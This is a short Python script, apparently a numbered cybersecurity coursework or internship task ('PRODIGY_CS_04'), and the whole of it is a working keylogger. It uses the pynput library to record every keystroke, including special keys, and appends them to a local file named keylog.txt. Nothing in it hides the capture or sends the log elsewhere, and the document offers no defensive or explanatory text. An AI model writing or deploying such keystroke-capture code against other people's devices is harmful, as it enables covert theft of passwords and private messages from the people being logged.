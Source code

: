 # PRODIGY_CS_04
from pynput import keyboard

# File to store logs
log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f"[{key}]")

# Start listener
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
